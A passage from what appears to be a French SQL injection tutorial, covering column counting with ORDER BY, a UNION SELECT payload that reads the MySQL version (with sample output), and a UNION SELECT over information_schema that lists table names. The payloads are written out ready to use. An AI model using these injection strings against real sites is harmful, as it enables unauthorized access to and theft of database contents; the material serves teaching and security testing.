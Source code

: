 **Exemple :**
Si la requête de base est :
```sql
SELECT * FROM articles WHERE id = 1;
```

L'attaquant essaie différentes valeurs pour `x` :
```sql
SELECT * FROM articles WHERE id = 1 OR 1=1 ORDER BY 1; -- Pas d'erreur
SELECT * FROM articles WHERE id = 1 OR 1=1 ORDER BY 2; -- Pas d'erreur
SELECT * FROM articles WHERE id = 1 OR 1=1 ORDER BY 3; -- Pas d'erreur
SELECT * FROM articles WHERE id = 1 OR 1=1 ORDER BY 4; -- Erreur
```

Lorsqu'une erreur survient à `ORDER BY 4`, cela indique que la table a 3 colonnes.

## 2.3. Obtenir la version de la base de données

**Commande :**
```sql
' OR 1=1 UNION SELECT 0,@@version,2 ORDER BY id; #
```

**Explication :**
- **Contexte:** Savoir la version du SGBD peut aider l'attaquant à adapter ses techniques d'exploitation.
- **Objectif:** Obtenir la version actuelle de la base de données.
- **Fonctionnement:** Utilisation de `UNION SELECT` pour combiner les résultats de la requête injectée avec ceux de la requête initiale.

**Exemple :**
Requête de base :
```sql
SELECT id, titre, contenu FROM articles WHERE id = 1;
```

Injection :
```sql
SELECT id, titre, contenu FROM articles WHERE id = 1 OR 1=1 UNION SELECT 0,@@version,2 ORDER BY id;
```

Résultat :
| id | titre                  | contenu |
|----|------------------------|---------|
| 0  | 5.7.32-log             | 2       |
| ...| ...                    | ...     |

La version de la base de données est `5.7.32-log`.

## 2.4. Lister les noms des tables

**Commande :**
```sql
' OR 1=1 UNION SELECT 0, GROUP_CONCAT(table_name), 2 FROM information_schema.tables WHERE table_schema=DATABASE() ORDER BY 1; #
```
